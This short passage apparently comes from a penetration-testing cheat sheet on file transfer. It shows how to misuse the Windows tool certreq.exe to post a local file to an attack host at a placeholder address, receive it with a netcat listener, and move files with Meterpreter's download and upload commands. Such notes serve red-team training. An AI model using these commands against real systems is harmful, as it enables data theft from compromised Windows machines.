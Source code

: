 It is a tool for Windows [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/)

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

> Example - upload a file 

Example:

```
certreq.exe -Post -config http://<IP-attack>/ c:\<IP-Destination>
```

> File received in our Netcat session:

Example:

```
sudo nc -lvnp <port>
```



## Meterpreter Session (Metasploit)

Command to Download a File:

```
download <file>
```

Command to Upload a File:

```
upload <file>
```

